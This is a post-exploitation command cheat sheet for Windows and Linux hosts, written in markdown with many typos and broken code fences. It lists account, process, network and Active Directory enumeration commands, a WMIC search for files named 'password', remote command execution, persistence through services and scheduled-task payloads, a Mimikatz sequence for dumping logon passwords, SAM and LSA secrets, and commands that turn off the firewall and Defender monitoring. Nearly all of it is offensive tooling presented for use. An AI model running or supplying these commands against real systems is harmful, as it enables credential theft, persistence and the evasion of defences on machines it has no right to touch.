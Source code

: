 ## Account Discovery :
• Current user
````
C:\> whoami
 ````
• Windows
````
C:\> net user
C:\> net group
C:\> net localgroup
``````

• Linux and UNIX
````
$ groups
$ cat /etc/passwd
``````
## Processes Running on target 
- Windows
````
C:\> tasklist
C:\> sc
C:\> net start
```````
• Linux and UNIX
``````
$ ps
$ top
````````
## Network Enumeration: 

- Windows:
```
C:\> ipconfig /all
C:\> netstat –na
C:\> net session
C:\> C:\> ipconfig /displaydns
`````
• Linux and UNIX:
````
# ifconfig
# netstat –natu
```````
– Linux, UNIX, and Windows:
```````
netstat –nr
arp –a
``````````
## Internal Scanning

- CMD shell cmd
````
C:\> for /L %i in (1,1,255) do @ping –n 1 10.0.0.%i | find "TTL"
``````
- powershell cmd
```
PS C:\> 1..255 | % {ping –n 1 10.0.0.$_ | sls ttl}
`````
- Listing computer in sysyem
`````
C:\> wmic computersystem LIST full
C:\> wmic /node:[targetIP] /user:[admin_user] /password:[password] computersystem LIST full
``````
- File Search:
```
C:\> wmic DATAFILE where "drive='C:' AND Name like '%password%’” GET Name,readable,size /VALUE
`````
## AD Enumeration:
- Local User Accounts:
```
C:\> wmic USERACCOUNT Get Domain,Name,Sid
```````
- Domain Enumeration:
````
C:\> wmic NTDOMAIN GET DomainControllerAddress,DomainName,Roles /VALUE
```````
- List all Users:
`````
C:\> wmic /NAMESPACE:\\root\directory\ldap PATH ds_user GET ds_samaccountname
``````
- Members of a Group:
``````
C:\> wmic /NAMESPACE:\\root\directory\ldap PATH ds_group where "ds_samaccountname='Domain Admins'" Get ds_member /Value
````````
- List all computers:
````
C:\> wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname
``````
## Persistance using command shells:

- Execute Remote Commands:
```
C:\> wmic process call create "cmd.exe /c calc.exe"
``````
## Make persistance using service process:
 ````
 C:\> sc \\[targetIP] create netcat binpath= "cmd.exe /k <executable>"
 C:\> sc \\[targetIP] start [svcname]
 ````````
- Finding Scheduled processes:
 ```
  C:\> sc query schedule 
  C:\> schtasks /create /tn [taskname] /sc [frequency] /st [starttime] /sd [startdate] /tr [payload]
  ``````
##  Mimikatz Dumping:
 ```` 
 # privilege::debug
 # sekurlsa::logonpasswords
 # sekurlsa::tickets /export
 # vault::cred
 # vault::list
 # token::elevate
 # lsadump::sam
 # lsadump::secrets
 # lsadump::cache
```````
## Turn off your firewall:
- Turn of Firewall:
```
C:\> netsh advfirewall set allprofiles state off
ps:\> Set MpPreferance RealTimeMonitoringSystemOf: $True
```````
- Antivirus:
`````````
C:\> wmic /namespace:\\root\securitycenter2 path antivirusproduct
``````````

